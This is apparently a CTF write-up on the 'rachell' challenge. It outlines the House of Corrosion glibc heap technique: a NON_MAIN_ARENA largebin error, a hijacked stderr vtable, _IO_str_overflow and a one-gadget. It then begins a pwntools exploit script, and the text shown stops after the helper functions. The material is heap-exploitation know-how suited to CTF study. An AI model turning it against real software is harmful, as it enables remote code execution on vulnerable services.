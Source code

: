 [Suggestion of House of Corrosion by CptGibbon (En)](https://github.com/CptGibbon/House-of-Corrosion)  
[My PoC of House of Corrosion (Jp)](https://smallkirby.hatenablog.com/entry/2020/02/24/210633)  
  
In short, the exploit follows below steps.  
- use largebin with NON\_MAIN\_ARENA flag on to cause an error  
- overwrite vtable of stderr and make it call \_IO\_str\_overflow when an error  
- in this function, a crafted function pointer is used and an one-gadget is invoked  
  
In this problem, two buffers would be allocated when you want to write content into a file. One is for a node management structure, and another is for content buffer. You can use "touch" command to allocate only the former buffer beforehand. It would make exploit easier because you don't care the allocation of the latter buffer when allocating crafted chunks.


# Exploit
The adrress of libc symbols are randomized except for their last 3 nibbles. When you overwrite global\_max\_fast by unsortedbin attack, you would overwrite the last 2 bytes of valid fd of an unsorted chunk. Therefore, this attack has 4-bit entropy. (Actually, this PoC has 4+x bit entropy, where x is small.)  
  
```python
#!/usr/bin/env python
#encoding: utf-8;

from pwn import *
import sys
import time

FILENAME = "../dist/rachell"
LIBCNAME = "../dist/libc.so.6"

hosts = ("uouo","localhost","localhost")
ports = (25252,12300,25252)
rhp1 = {'host':hosts[0],'port':ports[0]}    #for actual server
rhp2 = {'host':hosts[1],'port':ports[1]}    #for localhost 
rhp3 = {'host':hosts[2],'port':ports[2]}    #for localhost running on docker
context(os='linux',arch='amd64')
binf = ELF(FILENAME)
libc = ELF(LIBCNAME) if LIBCNAME!="" else None


## utilities #########################################

def hoge(command):
  c.recvuntil("command> ")
  c.sendline(command)

def ls(dir="."):
  hoge("ls")
  c.recvuntil("path> ")
  c.sendline(dir)


# current dir only
def touch(name):
  hoge("touch")
  c.recvuntil("filename> ")
  c.sendline(name)

def echo(path,content):
  if "\n" in content:
    raw_input("[w] content@echo() contains '\\n'. It would be end of input. OK?")

```